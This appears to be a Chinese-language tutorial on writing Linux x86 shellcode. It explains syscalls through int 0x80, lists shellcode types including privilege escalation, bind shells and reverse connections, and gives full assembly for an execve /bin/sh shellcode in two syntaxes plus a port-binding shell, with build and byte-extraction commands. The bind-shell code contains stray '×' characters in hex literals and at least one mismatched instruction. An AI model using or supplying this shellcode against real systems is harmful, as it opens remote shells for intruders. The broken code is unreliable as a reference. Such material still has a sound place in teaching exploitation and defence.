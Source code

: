 shellcode开发
========================================

linux下shellcode编写
----------------------------------------

基础
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 在Linux里有两个方法来执行系统调用，间接的方法是c函数包装（libc），直接的方法是用汇编指令（通过把适当的参数加载到寄存器，然后调用int 0x80软中断）。Linux的系统调用在以下文件中定义:/usr/include/asm-i386 /unistd.h。
+ 启动一个系统调用需要使用int指令，linux系统调用位于中断0×80。
	::
	
		应用程序调用系统调用的过程是： 
		1.把系统调用的编号存入 EAX；
		2.把函数参数存入其它通用寄存器；
		3.触发 0x80 号中断（int 0x80）。

shellcode
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 分类
	- 本地提权: 获取root权限，通过系统调用setreuid
	- 执行shell ：执行执行/bin/sh ，通过系统调用  execve
	- 开启远程端口：用shellcode在目标计算机上打开一个端口(通讯服务)，并将Shell绑定到该端口，攻击者可以放弃入侵时的用的端口
	- 反向连接shellcode：当目标计算机在防火墙后时，防火墙不允许外边的计算机主动访问目标机器。所以即使采用上边的shellcode建立了服务后门，你还是不能与目标计算机建立连接。反向连接的含义就是，让目标计算机通过特定的IP(攻击者的)和端口反向连接到攻击者，也可以设定为在固定的时间段主动来建立连接。

+ 编写步骤
	- 编写出对应的C程序语言
	- 根据C语言反汇编或者直接编写C语言对应的汇编程序。
	- 调整汇编程序，减小shellcode体积，去掉可能存在的NULL字节。
	- 提取汇编语言对应的16进编码。

+ 示例
	-  /bin/sh shellocde（intel汇编写法)
		::
		
			xor eax,eax          eax=0
			push eax             eax=null
			push 0x68732f2f      压栈 //sh
			push 0x6e69622f      压栈 /bin
			mov ebx,esp          ebx=esp指向/bin/sh
			push eax             eax=null 结束栈null
			push ebx             参数2   ebx指向/bin/sh
			mov ecx,esp          参数3   ecx指向[“/bin/sh”,NULL]
			xor edx,edx          参数4  edx=NULL
			mov al,0xb           参数1  eax=0xb
			int 0x80  
			
			[root@0day linux]# nasm -f elf execve.asm  编写目标文件
			[root@0day linux]# ld -o execve execve.o   链接，生成可执行文件
			[root@0day linux]# objdump -d execve       获取16进制编码，提取shellcode
			
	- /bin/sh shellocde（AT&T汇编写法)
		::
		
			xorl   %eax,%eax
			pushl  %eax
			pushl  $0x68732f2f
			pushl  $0x6e69622f
			movl   %esp, %ebx
			pushl  %eax
			pushl  %ebx
			movl   %esp, %ecx
			xorl   %edx, %edx
			movb   $0xb, %eax
			int    $0x80

			[root@0day linux]# as -f elf execve2.asm     编写目标文件
			[root@0day linux]# ld -o execve2 execve2.o   链接，生成可执行文件
			[root@0day linux]# objdump -d execve2        获取16进制编码，提取shellcode
			
	- 端口绑定
		::
		
			xor    %eax,%eax
			xor    %ebx,%ebx
			xor    %ecx,%ecx
			push   %eax
			push   $0×1
			push   $0×2
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			mov    %eax,%esi
			push   %edx
			push   $0×8519ff02
			mov    %esp,%ecx
			push   $0×10
			push   %ecx
			push   %esi
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			push   %edx
			push   %esi
			mov    %esp,%ecx
			mov    $0×4,%bl
			mov    $0×66,%al
			int    $0×80
			push   %edx
			push   %edx
			push   %esi
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			mov    %eax,%ebx
			xor    %ecx,%ecx
			mov    $0×3f,%al
			int    $0×80
			inc    %ecx
			mov    $0×3f,%al
			int    $0×80
			inc    %ecx
			mov    $0×3f,%al
			int    $0×80
			push   %edx
			push   $0×68732f2f
			push   $0×6e69622f
			mov    %esp,%ebx
			push   %edx
			push   %ebx
			mov    %esp,%ecx
			mov    $0xb,%al
			int    $0×80

			[root@0day linux]# as -f elf bind.asm     编写目标文件
			[root@0day linux]# ld -o bind bind.o      链接，生成可执行文件
			[root@0day linux]# objdump -d bind        获取16进制编码，提取shellcode
